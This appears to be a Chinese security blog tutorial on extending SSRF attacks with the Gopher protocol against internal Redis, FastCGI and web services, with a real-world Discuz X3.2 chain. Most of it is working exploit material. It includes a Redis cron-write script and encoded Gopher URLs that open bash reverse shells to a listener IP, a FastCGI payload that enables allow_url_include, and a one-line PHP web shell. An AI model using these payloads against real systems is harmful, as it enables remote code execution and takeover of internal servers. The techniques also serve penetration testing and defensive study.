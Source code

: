 ## 利用 Gopher 协议拓展攻击面

---

-   [1 概述](https://blog.chaitin.cn/gopher-attack-surfaces/#h1_%E6%A6%82%E8%BF%B0)
-   [2 攻击面测试](https://blog.chaitin.cn/gopher-attack-surfaces/#h2_%E6%94%BB%E5%87%BB%E9%9D%A2%E6%B5%8B%E8%AF%95)

-   [2.1 环境](https://blog.chaitin.cn/gopher-attack-surfaces/#h2.1_%E7%8E%AF%E5%A2%83)
-   [2.2 攻击内网 Redis](https://blog.chaitin.cn/gopher-attack-surfaces/#h2.2_%E6%94%BB%E5%87%BB%E5%86%85%E7%BD%91-redis)
-   [2.3 攻击 FastCGI](https://blog.chaitin.cn/gopher-attack-surfaces/#h2.3_%E6%94%BB%E5%87%BB-fastcgi)
-   [2.4 攻击内网 Vulnerability Web](https://blog.chaitin.cn/gopher-attack-surfaces/#h2.4_%E6%94%BB%E5%87%BB%E5%86%85%E7%BD%91-vulnerability-web)

-   [3 攻击实例](https://blog.chaitin.cn/gopher-attack-surfaces/#h3_%E6%94%BB%E5%87%BB%E5%AE%9E%E4%BE%8B)

-   [3.1 利用 Discuz SSRF 攻击 FastCGI](https://blog.chaitin.cn/gopher-attack-surfaces/#h3.1_%E5%88%A9%E7%94%A8-discuz-ssrf-%E6%94%BB%E5%87%BB-fastcgi)

-   [4 系统局限性](https://blog.chaitin.cn/gopher-attack-surfaces/#h4_%E7%B3%BB%E7%BB%9F%E5%B1%80%E9%99%90%E6%80%A7)
-   [5 更多攻击面](https://blog.chaitin.cn/gopher-attack-surfaces/#h5_%E6%9B%B4%E5%A4%9A%E6%94%BB%E5%87%BB%E9%9D%A2)
-   [6 参考](https://blog.chaitin.cn/gopher-attack-surfaces/#h6_%E5%8F%82%E8%80%83)

---

### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h1_%E6%A6%82%E8%BF%B0)1 概述

Gopher 协议是 HTTP 协议出现之前，在 Internet 上常见且常用的一个协议。当然现在 Gopher 协议已经慢慢淡出历史。  
Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用。利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求。这无疑极大拓宽了 SSRF 的攻击面。

### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h2_%E6%94%BB%E5%87%BB%E9%9D%A2%E6%B5%8B%E8%AF%95)2 攻击面测试

#### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h2.1_%E7%8E%AF%E5%A2%83)2.1 环境

-   IP: 172.19.23.218
-   OS: CentOS 6

根目录下 1.php 内容为：

```php
<?php
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_GET["url"]);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_HEADER, 0);
$output = curl_exec($ch);
curl_close($ch);
?>
```

#### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h2.2_%E6%94%BB%E5%87%BB%E5%86%85%E7%BD%91-redis)2.2 攻击内网 Redis

Redis 任意文件写入现在已经成为十分常见的一个漏洞，一般内网中会存在 root 权限运行的 Redis 服务，利用 Gopher 协议攻击内网中的 Redis，这无疑可以隔山打牛，直杀内网。  
首先了解一下通常攻击 Redis 的命令，然后转化为 Gopher 可用的协议。常见的 exp 是这样的：

```shell
redis-cli -h $1 flushall
echo -e "\n\n*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1\n\n"|redis-cli -h $1 -x set 1
redis-cli -h $1 config set dir /var/spool/cron/
redis-cli -h $1 config set dbfilename root
redis-cli -h $1 save
```

利用这个脚本攻击自身并抓包得到数据流：  
![2016-05-31_14:59:35.jpg](https://blog.chaitin.cn/gopher-attack-surfaces/2016-05-31_14:59:35.jpg)

改成适配于 Gopher 协议的 URL：

```shell
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/172.19.23.228/2333 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a
```

攻击：  
![2016-05-31_14:56:29.jpg](https://blog.chaitin.cn/gopher-attack-surfaces/2016-05-31_14:56:29.jpg)

#### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h2.3_%E6%94%BB%E5%87%BB-fastcgi)2.3 攻击 FastCGI

一般来说 FastCGI 都是绑定在 127.0.0.1 端口上的，但是利用 Gopher+SSRF 可以完美攻击 FastCGI 执行任意命令。  
首先构造 exp：  
![2016-05-31_15:24:35.jpg](https://blog.chaitin.cn/gopher-attack-surfaces/2016-05-31_15:24:35.jpg)

构造 Gopher 协议的 URL：

```shell
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/172.19.23.228/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00
```

攻击：  
![2016-05-31_15:26:25.jpg](https://blog.chaitin.cn/gopher-attack-surfaces/2016-05-31_15:26:25.jpg)

#### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h2.4_%E6%94%BB%E5%87%BB%E5%86%85%E7%BD%91-vulnerability-web)2.4 攻击内网 Vulnerability Web

Gopher 可以模仿 POST 请求，故探测内网的时候不仅可以利用 GET 形式的 PoC（经典的 Struts2），还可以使用 POST 形式的 PoC。  
一个只能 127.0.0.1 访问的 exp.php，内容为：

```php
<?php system($_POST[e]);?>  
```

利用方式：

```text
POST /exp.php HTTP/1.1
Host: 127.0.0.1
User-Agent: curl/7.43.0
Accept: */*
Content-Length: 49
Content-Type: application/x-www-form-urlencoded

e=bash -i >%26 /dev/tcp/172.19.23.228/2333 0>%261
```

构造 Gopher 协议的 URL：

```shell
gopher://127.0.0.1:80/_POST /exp.php HTTP/1.1%0d%0aHost: 127.0.0.1%0d%0aUser-Agent: curl/7.43.0%0d%0aAccept: */*%0d%0aContent-Length: 49%0d%0aContent-Type: application/x-www-form-urlencoded%0d%0a%0d%0ae=bash -i >%2526 /dev/tcp/172.19.23.228/2333 0>%25261null
```

攻击：  
![2016-05-31_15:19:17.jpg](https://blog.chaitin.cn/gopher-attack-surfaces/2016-05-31_15:19:17.jpg)

### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h3_%E6%94%BB%E5%87%BB%E5%AE%9E%E4%BE%8B)3 攻击实例

#### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h3.1_%E5%88%A9%E7%94%A8-discuz-ssrf-%E6%94%BB%E5%87%BB-fastcgi)3.1 利用 Discuz SSRF 攻击 FastCGI

Discuz X3.2 存在 SSRF 漏洞，当服务器开启了 Gopher wrapper 时，可以进行一系列的攻击。  
首先根据 phpinfo 确定开启了 Gopher wrapper，且确定 Web 目录、PHP 运行方式为 FastCGI。  
![2016-06-02_10:06:00.jpg](https://blog.chaitin.cn/gopher-attack-surfaces/2016-06-02_10:06:00.jpg) ![2016-06-01_15:09:52.jpg](https://blog.chaitin.cn/gopher-attack-surfaces/2016-06-01_15:09:52.jpg)  
![2016-06-02_10:06:52.jpg](https://blog.chaitin.cn/gopher-attack-surfaces/2016-06-02_10:06:52.jpg)  
测试 Gopher 协议是否可用，请求：

```text
http://127.0.0.1:8899/forum.php?mod=ajax&action=downremoteimg&message=%5Bimg%3D1%2C1%5Dhttp%3A%2f%2f127.0.0.1%3A9999%2fgopher.php%3Fa.jpg%5B%2fimg%5D
```

其中 gopher.php 内容为：

```php
<?php
header("Location: gopher://127.0.0.1:2333/_test");
?>
```

监听 2333 端口，访问上述 URL 即可验证：  
![2016-06-02_10:09:42.jpg](https://blog.chaitin.cn/gopher-attack-surfaces/2016-06-02_10:09:42.jpg)

构造 FastCGI 的 Exp：

```php
<?php
header("Location: gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%10%00%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH97%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Asafe_mode%20%3D%20Off%0Aauto_prepend_file%20%3D%20php%3A//input%0F%13SCRIPT_FILENAME/var/www/html/1.php%0D%01DOCUMENT_ROOT/%01%04%00%01%00%00%00%00%01%05%00%01%00a%07%00%3C%3Fphp%20system%28%27bash%20-i%20%3E%26%20/dev/tcp/127.0.0.1/2333%200%3E%261%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0A%27%29%3B%3F%3E%00%00%00%00%00%00%00");
?>
```

请求：

```text
http://127.0.0.1:8899/forum.php?mod=ajax&action=downremoteimg&message=%5Bimg%3D1%2C1%5Dhttp%3A%2f%2f127.0.0.1%3A9999%2f1.php%3Fa.jpg%5B%2fimg%5D  
```

即可在 2333 端口上收到反弹的 shell：  
![2016-06-02_09:44:25.jpg](https://blog.chaitin.cn/gopher-attack-surfaces/2016-06-02_09:44:25.jpg)  
攻击视频： 

### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h4_%E7%B3%BB%E7%BB%9F%E5%B1%80%E9%99%90%E6%80%A7)4 系统局限性

经过测试发现 Gopher 的以下几点局限性：

-   大部分 PHP 并不会开启 fopen 的 gopher wrapper
-   file_get_contents 的 gopher 协议不能 URLencode
-   file_get_contents 关于 Gopher 的 302 跳转有 bug，导致利用失败
-   PHP 的 curl 默认不 follow 302 跳转
-   curl/libcurl 7.43 上 gopher 协议存在 bug（%00 截断），经测试 7.49 可用

更多有待补充。  
另外，并不限于 PHP 的 SSRF。当存在 XXE、ffmepg SSRF 等漏洞的时候，也可以进行利用。

### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h5_%E6%9B%B4%E5%A4%9A%E6%94%BB%E5%87%BB%E9%9D%A2)5 更多攻击面

基于 TCP Stream 且不做交互的点都可以进行攻击利用，包括但不限于：

-   HTTP GET/POST
-   Redis
-   Memcache
-   SMTP
-   Telnet
-   基于一个 TCP 包的 exploit
-   FTP（不能实现上传下载文件，但是在有回显的情况下可用于爆破内网 FTP）

更多有待补充。

### [](https://blog.chaitin.cn/gopher-attack-surfaces/#h6_%E5%8F%82%E8%80%83)6 参考

-   [Gopher (protocol)](https://en.wikipedia.org/wiki/Gopher_(protocol))
-   [redis 远程命令执行 exploit (不需要flushall)](http://zone.wooyun.org/content/23858)
-   [PHP FastCGI 的远程利用](http://zone.wooyun.org/content/1060)